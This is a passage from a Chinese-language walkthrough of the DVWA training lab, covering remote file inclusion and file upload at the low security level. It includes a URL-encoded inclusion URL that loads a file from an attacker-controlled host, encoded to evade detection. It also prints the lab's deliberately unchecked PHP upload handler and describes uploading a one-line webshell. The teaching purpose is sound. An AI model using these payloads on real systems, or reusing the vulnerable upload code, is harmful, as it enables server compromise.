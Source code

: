 
成功在服务器上执行了phpinfo函数

为了增强隐蔽性可以对

`http://192.168.124.1/upload/upload/info.txt`进行编码
`http://192.168.124.131/vulnerabilities/fi/?page=%68%74%74%70%3a%2f%2f%31%39%32%2e%31%36%38%2e%31%32%34%2e%31%2f%75%70%6c%6f%61%64%2f%75%70%6c%6f%61%64%2f%69%6e%66%6f%2e%74%78%74`

#### File upload

文件上传漏洞，通常是由于对上传文件的类型、内容没有进行严格的过滤、检查，使得攻击者可以通过上传木马获取服务器的webshell权限，因此文件上传漏洞带来的危害常常是毁灭性的，Apache、Tomcat、Nginx等都曝出过文件上传漏洞

```php
 <?php

if( isset( $_POST[ 'Upload' ] ) ) {
    // Where are we going to be writing to?
    $target_path  = DVWA_WEB_PAGE_TO_ROOT . "hackable/uploads/";
    $target_path .= basename( $_FILES[ 'uploaded' ][ 'name' ] );

    // Can we move the file to the upload folder?
    if( !move_uploaded_file( $_FILES[ 'uploaded' ][ 'tmp_name' ], $target_path ) ) {
        // No
        echo '<pre>Your image was not uploaded.</pre>';
    }
    else {
        // Yes!
        echo "<pre>{$target_path} succesfully uploaded!</pre>";
    }
}

?>
```

*basename(path,suffix)*

函数返回路径中的文件名部分，如果可选参数suffix为空，则返回的文件名包含后缀名，反之不包含后缀名。可以看到，服务器对上传文件的类型、内容没有做任何的检查、过滤，存在明显的文件上传漏洞，生成上传路径后，服务器会检查是否上传成功并返回相应提示信息。

可以看到文件上传没有做任何限制，可以上传任何文件，上传一句话拿到webshell

![](DVWA.assets/dvwa-low-12.png)
